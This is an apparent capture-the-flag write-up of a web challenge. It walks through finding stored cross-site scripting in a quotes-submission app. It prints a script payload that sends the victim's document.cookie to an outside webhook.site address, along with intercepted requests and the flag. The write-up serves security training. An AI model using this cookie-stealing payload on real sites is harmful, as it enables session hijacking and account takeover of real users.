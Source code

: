 # Web: Quotes blog

We've been working hard on our new startup "Quotes Blog", a crowdsourced quotes submission platform. Can you review this application for any vulnerabilities before we launch this platform?

**Target**: 139.59.183.170:32464

---

We started by navigating to the web page. We observed a login page. We tried admin:admin, and intercepted the request and the response:

```http
[REQUEST]
POST /api/login HTTP/1.1
Host: 139.59.183.170:32464
Content-Length: 39
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.5195.102 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: http://139.59.183.170:32464
Referer: http://139.59.183.170:32464/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

{"username":"admin","password":"admin"}

[RESPONSE]
HTTP/1.1 403 Forbidden
X-Powered-By: Express
Content-Type: application/json; charset=utf-8
Content-Length: 43
ETag: W/"2b-i4njf3x53MYj5moND+DsqTXL4qg"
Date: Wed, 21 Sep 2022 11:58:55 GMT
Connection: close

{"message":"Invalid username or password!"}
```
At this point we knew how an invalid login looked like. We could try to brute force it using Hydra, but we decided to try another techinques before. 

We created a new user and loggin with it. The server returned a session token, then it loaded the "feed".


```http
HTTP/1.1 200 OK
X-Powered-By: Express
Set-Cookie: session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNjYzNzYxNjIxfQ.aoiAuzCEtIVXtn3FW_0C2dmz_iPvquJNduF85cVOyrU; Max-Age=3600; Path=/; Expires=Wed, 21 Sep 2022 13:00:21 GMT
Content-Type: application/json; charset=utf-8
Content-Length: 46
ETag: W/"2e-FCTfdnBNtsqc3wjjuhAwgZEEoU8"
Date: Wed, 21 Sep 2022 12:00:21 GMT
Connection: close

{"message":"User authenticated successfully!"}


GET /feed HTTP/1.1
Host: 139.59.183.170:32464
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.5195.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://139.59.183.170:32464/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNjYzNzYxNjIxfQ.aoiAuzCEtIVXtn3FW_0C2dmz_iPvquJNduF85cVOyrU
Connection: close
```
We observed that we can write comments in the feed. It may be vulnerable to XSS. We tried with a simple script `<script>alert("alo")</script>`

Initially, our comment was not displayed in the feed (it was being "reviewed by the admin"). Nevertheless, in the page "your submissions", when the page is loaded our injected alert appeared. Thus the form was vulnerable to XSS.

We tried the web hooking technique. This time there was only one parameter, so there was only one place to inject the hook.

```http
POST /api/submit HTTP/1.1
Host: 139.59.183.170:32464
Content-Length: 15
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.5195.102 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: http://139.59.183.170:32464
Referer: http://139.59.183.170:32464/feed
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNjYzNzYxNjIxfQ.aoiAuzCEtIVXtn3FW_0C2dmz_iPvquJNduF85cVOyrU
Connection: close

{"content":"<script>new Image().src=\"https://webhook.site/eff815dc-37db-43cb-813e-4fa047de3dfa/?c=\"+document.cookie;</script>"}
```
Although our comment was not directly published in the feed, when the server processes the comment it would execute the hook. We navigated to "Your submissions" so that our comment was loaded thus our hook executed. Then we navigate to our <webhook.site> and saw a new hook.

![[./more_xss.png]]

Finally, `flag=HTB{m0r3_th4n_ju5t_al3rts}`




